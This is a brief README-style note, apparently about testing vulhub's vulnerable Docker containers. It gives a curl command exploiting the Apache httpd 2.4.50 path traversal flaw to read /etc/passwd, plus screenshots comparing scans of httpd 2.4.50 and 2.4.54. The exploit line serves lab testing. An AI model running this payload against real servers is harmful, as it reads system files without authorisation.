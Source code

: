 **Vulnerable container List**
https://github.com/vulhub/vulhub
We tried to run these containers and execute vulnerabilities
As an example Apache HTTP Server 2.4.50 container have vulnerability  where you can see the folders you not access to:
by running this code
```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```
![enter image description here](https://github.com/vulhub/vulhub/raw/master/httpd/CVE-2021-42013/1.png)

For comparison here is results of scanning old vulnerable container of apache httpd 2.4.50 and latest 2.4.54
Both have security problems 
![enter image description here](https://i.imgur.com/Dj2e5df.png)![enter image description here](https://i.imgur.com/k24BjuE.png)
